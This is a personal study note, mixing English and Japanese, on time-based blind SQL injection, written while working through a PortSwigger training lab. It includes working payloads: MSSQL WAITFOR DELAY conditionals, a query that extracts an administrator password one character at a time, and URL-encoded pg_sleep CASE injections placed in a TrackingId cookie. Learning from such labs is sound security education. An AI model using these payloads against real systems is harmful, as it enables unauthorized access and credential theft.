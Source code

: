 Date: 2025-09-18
Tags: 
Links: [[WSA]], [[SQL]]
***

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```sql
'xyz'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--`
```
>IF文は汎用性がないからCASE文の方が良い。

- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:

```sql
'xyz'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
```

***
## Lab

1. **time delayが有効と確認**
```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
IF文はデータベースによって違いがある。CASE文の方が汎用的。
**;のエンコーディングは必要。**


2. **administratorの存在確認**
```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
>usersテーブルの全ての行を調査し、username='administrator'があれば１０秒待つ。
>--> administratorの存在確認になる。

3. **passwordの長さ確認。→総当たり**
　念の為一度にレスポンスを一回しか送れないようにする。
***
# References

https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval